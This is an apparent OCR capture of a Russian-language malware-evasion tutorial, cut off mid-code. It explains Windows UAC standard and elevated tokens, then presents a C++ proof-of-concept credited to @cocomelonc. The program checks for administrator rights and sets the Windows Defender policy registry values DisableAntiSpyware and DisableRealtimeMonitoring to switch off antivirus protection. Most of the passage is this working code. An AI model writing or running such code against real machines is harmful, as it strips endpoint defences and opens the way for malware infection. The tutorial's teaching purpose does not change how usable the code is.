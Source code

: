 Все процессы (включая проводник Windows - `explorer.exe`) запускаются с использованием стандартного токена, который ограничивает права и привилегии процесса. Если пользователь хочет получить повышенные привилегии, он может выбрать *"Запуск от имени администратора"* для выполнения процесса. Этот выбор наделяет процесс всеми административными привилегиями и правами.   

Сценарий или исполняемый файл обычно выполняется с токеном стандартного пользователя из-за фильтрации токенов доступа UAC, если только он не был запущен *"от имени администратора"* в режиме повышенных привилегий. Как разработчику или хакеру, важно понимать, в каком режиме вы работаете.   

Итак, полный PoC-скрипт для отключения Windows Defender выглядит следующим образом:   


```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, 
    REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 
    0, REG_OPTION_NON_VOLATILE, 
    KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
```